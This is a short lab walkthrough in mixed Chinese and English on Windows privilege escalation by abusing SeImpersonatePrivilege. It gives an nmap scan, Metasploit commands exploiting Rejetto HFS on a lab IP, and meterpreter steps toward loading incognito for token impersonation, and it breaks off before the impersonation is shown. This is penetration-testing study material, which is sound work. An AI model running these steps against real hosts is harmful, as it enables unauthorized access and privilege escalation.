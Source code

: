 SeImpersonatePrivilege：这允许用户在通常具有管理权限的另一个用户的安全上下文下创建进程。


1. Utilizing currently available access tokens, impersonating them, in order to elevate privileges.
2. Potato attack. It order to get `NT AUTHORITY\SYSTEM` access token generated so that you can impersonate.

# Demo: Access Token Impersonation（演示：访问令牌模拟）

```
Target IP Address: 10.2.24.20
```

```
nmap 10.2.24.20
```

```
service postgresql start && msfconsole -q

search rejetto
use 0
show options
set RHOSTS 10.2.24.20
exploit
```

Migrate our meterpreter session into the process. Look for the process id of the explorer process. Access is denied, because we currently have access to a non-privileged user account.

We have `SeImpersonatePrivilege`, which means we can utilize this particular user account (meterpreter session) to impersonate other access token available.

Load incognito and the meterpreter session died, that is because we try to migrate to a process.

```
meterpreter > sysinfo
meterpreter > pgrep explorer
3512
meterpreter > migrate 3512
[-] core_migrate: Operation failed: Access is denied.
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > getprivs

Enable Process Privileges
=========================
Name
----
SeImpersonatePrivilege

meterpreter > load incognito
meterpreter > expolit
```

`-u`: List the user account access token.
